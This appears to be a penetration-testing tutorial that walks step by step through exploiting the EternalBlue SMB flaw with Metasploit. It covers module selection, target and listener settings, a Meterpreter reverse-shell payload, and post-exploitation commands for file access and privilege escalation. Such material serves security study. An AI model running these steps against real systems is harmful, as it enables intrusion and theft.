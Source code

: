 # Exploiting MS17-010 EternalBlue Vulnerability using Metasploit

<details>
<summary><strong>Metasploit</strong></summary>
Metasploit is an open-source penetration testing framework that offers a vast collection of tools and exploits for security testing, vulnerability assessment, and penetration testing. It provides a comprehensive platform for security professionals and researchers to test systems, identify vulnerabilities, and execute various security assessments. Metasploit includes a vast database of exploits, payloads, auxiliary modules, and post-exploitation tools, enabling users to assess the security posture of systems and networks.
</details>

<details>
<summary><strong>Eternal Blue</strong></summary>
EternalBlue is the codename for a critical software vulnerability in Microsoft's Windows operating system discovered by the National Security Agency (NSA) and later leaked by a hacking group. This vulnerability (CVE-2017-0144) affects the Windows Server Message Block (SMB) protocol. EternalBlue exploits a flaw in the SMBv1 protocol, allowing attackers to execute arbitrary code remotely on a vulnerable system without requiring user interaction. It was famously used as part of the WannaCry ransomware attack, highlighting its significance and the need for timely system patching and security measures.
</details>

## 1. Set Up Your Environment
Ensure you have Metasploit installed on your system. You can use Kali Linux, Parrot OS, or install Metasploit manually on your preferred OS.

## 2. Start Metasploit Framework
Open a terminal and launch Metasploit by typing:

```bash
msfconsole
```

Once inside Metasploit, you can search for the EternalBlue module using:

```bash
show module
```

## 3. Search for the MS17-010 EternalBlue Exploit Module
To search for a specific module:

```bash
search ms17-010
```

## 4. Select the Exploit Module
After finding the appropriate exploit module (e.g., exploit/windows/smb/ms17_010_eternalblue), select it by entering:

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

## 5. Set Required Parameters

Configure necessary parameters by employing the show options command to view and adjust settings as needed. Common options include `RHOSTS`,`LHOST`, `RPORT`, etc.

-------------------------------------------------------------------------------
| Parameter | Description                           | Example Usage           |
|-----------|---------------------------------------|-------------------------|
| RHOSTS    | Remote host(s) IP address(es)         | `set RHOSTS 192.168.1.5`|
| LHOST     | Local host listening IP for payloads  | `set LHOST 192.168.1.2` |
| RPORT     | Remote port for the target service    | `set RPORT 445`         |
-------------------------------------------------------------------------------

```bash
Set RHOSTS <Target IP>
```

## 6. Set Payload

After selecting the exploit module, you need to set the payload that will be delivered to the compromised system. This payload determines the action or code executed on the target after exploitation.
For example, to set the payload as a reverse shell for a Windows target:

```bash
set payload windows/meterpreter/reverse_tcp
```

## 7. Execute the Exploit
Once all necessary options are set, run the exploit by typing:

```bash
exploit
```

The exploit might take some time to run. Upon successful exploitation, Metasploit may display the meterpreter prompt, indicating a successful compromise of the target system.

## 8. Post-Exploitation Actions

Once the exploit succeeds and you gain access to the compromised system, you can perform various post-exploitation actions using the `meterpreter` prompt.

### Some useful post-exploitation commands:

- **System Commands**: Execute system commands on the target system using :
  
```bash
shell
```
  
Gather System Information: Retrieve system information like system details, user information, etc. using commands such as `sysinfo`, `getuid`, etc.

File Operations: Manipulate files on the compromised system using commands like `download`, `upload`, `ls`, `cd`, etc.

Privilege Escalation: Attempt to elevate privileges on the target system using modules like `getsystem`, `migrate`, etc.




